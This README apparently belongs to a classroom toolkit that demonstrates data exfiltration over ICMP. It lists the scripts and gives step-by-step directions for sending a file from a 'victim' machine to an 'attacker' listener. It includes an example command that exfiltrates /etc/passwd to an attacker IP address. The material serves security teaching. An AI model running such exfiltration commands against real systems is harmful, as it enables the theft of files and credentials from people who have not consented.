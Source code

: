 ## About:
These programs demostrate how an attacker can exfiltrate data using the icmp protocol.  
They are designed for use in a cybersecurity classroom.  

## Programs Included:
- exfil.sh: This program sends files **FROM the VICTIM** machine over the ICMP protocol.   
- listen.sh: This runs the tcpdump command and produces the output file data.dmp.  
- pyarray.py: This program parses through the data.dmp file.  
- rebuild.sh: This script runs pyarray, produces a file called hexout, and prints the received file in plaintext.  

## Directions:

Copy listen.sh, pyarray.py, and rebuild.sh to the **ATTACKER** machine.  
Run  
```
./listen.sh  
```

Copy **exfil.sh** to the **VICTIM MACHINE**  
Usage: ./exfil.sh <file_to_transfer> <ip_address_of_attacker>  
Example:
```
./exfil.sh /etc/passwd 192.168.14.5
```

Use CTRL-C to stop listen.sh.  
(You should see a file called data.dmp which contains the tcpdump output on the attacker machine.)

On the **ATTACKER** machine  
Run
```
./rebuild.sh 
```
The file sent from the victim will be printed in plain text.  


